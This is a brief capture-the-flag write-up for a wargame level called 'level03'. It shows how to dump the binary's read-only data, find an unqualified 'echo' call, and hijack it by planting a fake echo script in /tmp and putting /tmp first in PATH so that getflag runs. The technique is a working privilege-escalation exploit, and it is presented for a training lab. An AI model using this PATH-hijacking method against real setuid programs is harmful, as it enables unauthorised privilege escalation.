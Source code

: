 
There is a binary file named `level03` in the home directory; execute the following command: 

``` shell
objdump -s -j .rodata ./level03
```

From the output we can see that it calls `/usr/bin/env echo Exploit me`, so lets change the echo command to call `getflag` instead, for doing so create an file named `echo` that calls `getflag` instead:

``` shell
echo "getflag" > /tmp/echo
```

Change permissions of the dummy echo and run the program with the `PATH` changed so our echo is called first than the system one:

``` shell
chmod 777 /tmp/echo && PATH=/tmp:$PATH ./level03 
```

